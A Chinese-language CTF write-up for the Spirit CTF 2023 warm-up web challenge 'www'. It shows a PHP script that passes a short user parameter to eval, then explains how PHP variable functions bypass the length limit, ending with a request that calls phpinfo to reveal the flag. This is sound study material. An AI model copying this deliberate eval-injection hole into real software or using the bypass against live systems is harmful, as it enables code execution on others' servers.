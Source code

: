 # Spirit CTF 2023 热身赛题解 - www
#Web #PHP #可变函数 #bypass 

```
/
```

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$w = function ($ww) {
    if (!is_string($ww)) {
        die('www');
    }
    if (preg_match('/[^a-zA-Z0-9]/', $ww)) {
        die('www');
    }
    return $ww;
};

if (!isset($_GET['ww'])) {
    die('www');
}
$ww = $w($_GET['ww']);

if (!isset($_GET['www'])) {
    die('www');
}
$www = $_GET['www'];

if (strlen($www) > strlen('www' . 'www')) {
    die('www' . 'www');
}
eval($www);
www
```

总体逻辑是酱：
1. 可控参数为`ww`和`www`
1. `w`要求`ww`为字符串，且只包含字母和数字
1. `www`不能超过六个字符
1. `www`被`eval`

疑点：
- `ww`并未被使用（这算不算hint#0呢qwq）

目的是调用`phpinfo`（hint#1），考虑到长度限制，`ww`得用到。于是可以构造`$www = '$ww();'`以及`$ww = 'phpinfo';`，这样就能调用到`phpinfo`了。

这里利用了`php`的一个叫做**可变函数**的特性（hint#2），可以通过变量后跟括号的方式执行变量包含的函数名对应的函数。

```
/?ww=phpinfo&www=$ww();
```

![](<./img/Pasted image 20230507233051.png>)

flag在环境变量里～

